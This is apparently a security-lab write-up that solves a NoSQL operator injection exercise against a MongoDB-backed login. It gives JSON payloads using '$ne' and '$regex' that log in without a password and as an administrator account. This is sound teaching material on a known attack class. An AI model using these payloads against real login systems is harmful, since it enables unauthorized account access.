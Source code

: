 # Exploiting NoSQL operator injection to bypass authentication
# Objective
The login functionality for this lab is powered by a MongoDB NoSQL database. It is vulnerable to NoSQL injection using MongoDB operators.\
\
To solve the lab, log into the application as the `administrator` user.\
\
You can log in to your own account using the following credentials: `wiener:peter`.

# Solution
## Analysis
The following payload causes a internal server error:

```json
{"username":{"$ne":"invalidusername"},"password":{"$ne":"invalidpassword"}}
```

|![](Images/image-8.png)|
|:--:| 
| *Payload worked - all users were queried* |

Using the test credentials `wiener:peter` it is possible to login without password:

```json
{"username":"wiener","password":{"$ne":"invalidpassword"}}
```
|![](Images/image-10.png)|
|:--:| 
| *Login without password* |



## NoSQL injection
The username for `admin` user consisted of word "admin" and random characters.

```json
{"username":{"$regex":"admin.*"},"password":{"$ne":"invalidpassword"}}
```
|![](Images/image-10.png)|
|:--:| 
| *Bypass authentication* |